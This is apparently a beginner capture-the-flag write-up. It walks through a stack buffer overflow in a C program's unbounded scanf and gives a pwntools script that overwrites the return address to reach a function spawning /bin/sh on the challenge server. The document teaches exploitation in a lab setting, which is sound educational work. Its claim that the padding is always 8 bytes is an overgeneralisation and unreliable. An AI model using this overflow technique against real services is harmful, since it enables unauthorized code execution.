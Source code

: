 # Shell

---

### Challenge Description

> Try to exploit this to get a shell!

> The challenge service is at:
3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg:30601

---

### Solution Breakdown for Dummies 

We are given a binary and its source code. 

We first take a look at the source code

```c
void shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[32];
    setup_IO();

    printf("Input: ");
    scanf("%s", buf);

    return 0;
}
```

First we can see a shell function which pops a shell.

```c
void shell()
{
    system("/bin/sh");
}
```
 
Next, as we move down the code, we can see, our main function takes in an input with scanf, but it does not limit the number of characters that it takes in. 

` scanf("%s", buf); `

It saves this input into a variable buffer which holds 32 characters.

 `char buf[32];`

If we can input more than 32 characters, we can overflow other variables in the stack. What's the stack? How does the stack look!? 

Let's read on the code first. 

At the end of the main function, it calls `return 0;`. What this does is that it returns to an address in a previous function and executes the instructions there.

What is currently at the return address is however, not of concern.

However, if we can somehow set the return address to the address of our shell function, the main function would return to the shell function and executes /bin/sh, giving us code execution.

How can we do that? Let's visualize the stack.

![mem (1)](https://user-images.githubusercontent.com/76640319/114257043-c4a03800-99ef-11eb-923c-9088d6162e34.jpg)

So we have an input, we first want to overflow the 32 characters of the buf variable. 

Next, we want to fill up the bytes between buf and return address. This will be 8 characters in 32 bit binary. **(its a fact)**

Next, we want to find out the address of the shell function. We can do this in many ways. 

1. We can find it on objdump.

![image](https://user-images.githubusercontent.com/76640319/114257094-42644380-99f0-11eb-8319-0b29c22e2a13.png)

2. We can find it using nm.

![image](https://user-images.githubusercontent.com/76640319/114257098-485a2480-99f0-11eb-9a68-811960cbb9d5.png)

3. We can use gdb.

![image](https://user-images.githubusercontent.com/76640319/114257107-5ad45e00-99f0-11eb-80fe-f5737fc69cd3.png)

Okay, now we have everything we did. Let's write our script.

```py
from pwn import * 
#import pwntools

p = remote('3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg', 30601)
#connect to remote service

shelladdr = p32(0x08048569) 
#shell address in little endian

payload = b''
payload += b"A"*32 # overflow buf
payload += b"A"*8 #reach return addr
payload += shelladdr #overwrite return address with shell address so it returns to and executes shell

p.sendline(payload) #send payload
p.interactive() #pop a shell
```

![image](https://user-images.githubusercontent.com/76640319/114257224-e77f1c00-99f0-11eb-8e98-2c6443c29e5e.png)

We have successfully popped a shell!!

Now I believe that you can find the flag yourself :) Good luck pwners.
